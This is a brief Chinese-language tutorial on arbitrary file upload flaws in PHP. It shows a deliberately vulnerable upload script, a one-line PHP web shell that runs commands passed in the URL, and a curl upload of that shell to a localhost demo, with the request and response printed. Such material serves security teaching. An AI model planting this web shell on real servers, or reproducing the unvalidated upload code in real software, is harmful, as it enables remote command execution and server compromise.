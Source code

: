 #任意文件上传漏洞
对上传的文件不进行检验,直接上传。一般与其他漏洞结合使用,例如任意目录遍历及远程命令调用。    
编写1个相关的PHP脚本,其内容为:  

```
<?php
function mkdirs($dir, $mode = 0777)
{
    if (is_dir($dir) || @mkdir($dir, $mode)) return TRUE;
    if (!mkdirs(dirname($dir), $mode)) return FALSE;
    return @mkdir($dir, $mode);
}
$target = "pictures/";
mkdirs($target);
$target = $target.basename($_FILES['uploadedfile']['name']);
if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target)){
  echo "The picture has been successfully upload.";
}else{
  echo "There was an error uploading the picture, please try again.";
}
```

再编写1个入侵的PHP脚本`malicious.php`:  

```
<?php
system($_GET['cmd']);
```

使用curl进行文件上传:

<pre>
$ curl http://localhost/demo.php -F "uploadedfile=@malicious.php" -v
*   Trying ::1...
* TCP_NODELAY set
* Connected to localhost (::1) port 80 (#0)
> POST /demo.php HTTP/1.1
> Host: localhost
> User-Agent: curl/7.61.1
> Accept: */*
> Content-Length: 241
> Content-Type: multipart/form-data; boundary=------------------------2572e1912cbed99d
>
< HTTP/1.1 200 OK
< Date: Tue, 14 May 2019 03:32:51 GMT
< Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
< X-Powered-By: PHP/5.4.45
< Content-Length: 41
< Content-Type: text/html
<
The picture has been successfully upload.* Connection #0 to host localhost left intact
</pre>

文件上传成功。  
例如,远程命令调用:  

![calc](1.jpg)